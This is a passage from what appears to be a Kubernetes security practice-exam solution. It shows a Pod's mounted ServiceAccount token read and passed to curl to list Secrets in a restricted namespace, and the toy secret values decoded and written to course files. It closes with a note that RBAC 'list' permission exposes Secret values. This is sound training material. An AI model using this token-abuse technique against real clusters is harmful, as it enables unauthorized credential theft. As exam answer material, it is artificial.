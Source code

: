 
###### NOTE: You should have knowledge about ServiceAccounts and how they work with Pods like described in the docs


We can see all necessary information to contact the apiserver manually:

```json
/ # curl https://kubernetes.default/api/v1/namespaces/restricted/secrets -H "Authorization: Bearer $(cat /run/secrets/kubernetes.io/serviceaccount/token)" -k
...
    {
      "metadata": {
        "name": "secret3",
        "namespace": "restricted",
...
          }
        ]
      },
      "data": {
        "password": "cEVuRXRSYVRpT24tdEVzVGVSCg=="
      },
      "type": "Opaque"
    }
...
```

Let's encode it and write it into the requested location:

```sh
➜ echo cEVuRXRSYVRpT24tdEVzVGVSCg== | base64 -d
pEnEtRaTiOn-tEsTeR

➜ echo cEVuRXRSYVRpT24tdEVzVGVSCg== | base64 -d > /opt/course/12/secret3
```

This will give us:
```yaml
# /opt/course/12/secret1
you-are
```

```yaml
# /opt/course/12/secret2
an-amazing
```

```yaml
# /opt/course/12/secret3
pEnEtRaTiOn-tEsTeR
```

We hacked all Secrets! It can be tricky to get RBAC right and secure.


###### NOTE: One thing to consider is that giving the permission to "list" Secrets, will also allow the user to read the Secret values like using kubectl get secrets -o yaml even without the "get" permission set.
